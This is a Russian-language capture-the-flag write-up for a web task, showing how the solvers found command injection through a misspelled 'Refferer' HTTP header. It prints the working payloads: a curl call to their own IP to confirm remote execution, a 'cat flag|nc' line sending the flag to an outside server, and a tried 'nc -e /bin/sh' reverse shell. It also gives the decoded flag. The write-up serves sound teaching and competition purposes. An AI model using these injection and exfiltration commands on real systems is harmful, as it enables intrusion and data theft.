 1. Тыкаемся в http://tracking.ctf2019.rocks/ с разными параметрами
в GET / POST, параллельно работает ZAP.

2. Вспоминаем, что реферер передается в соответствующем HTTP
 заголовке, но терпим неудачу. В какой-то момент замечаем,
 что в ответе слово 'refferer' написано с ошибкой
 (должно быть 'referrer'). Других векторов не
  видно, поэтому начинаем пробовать подставлять в хедер
  разные параметры в поисках RCE (нам на помощь 
  приходит описание задачи). Делаем
  ```bash
$ curl -H 'Refferer: ya.ru;curl 89.163.129.121' tracking.ctf2019.rocks
```
и в логах nginx на нашем сервере видим GET запрос с
хоста трекинга. Что ж, дело за малым: написать правильный payload

3. Дальше можно было бы организовать reverse shell, 
но решение "в лоб" с `nc -e /bin/sh...` не взлетело,
а экспериментировать было лень; простой `'Refferer: ya.ru;cat flag|nc 89.163.129.121 8888'`
уже дал основной флаг.

4. ZAP к тому времени нашел нерабочий flag.php,
 Скачиваем его аналогично флагу, расставляем
 переносы строк после ';', делаем
 ```bash
ctf@ctf:~$ cat tracking_flag.php |cut -d \' -f 2|base64 -d
WGCTF{728E7F7399B747BA30F7F561B7296783}
```

5. Второй доп находим в index.php
 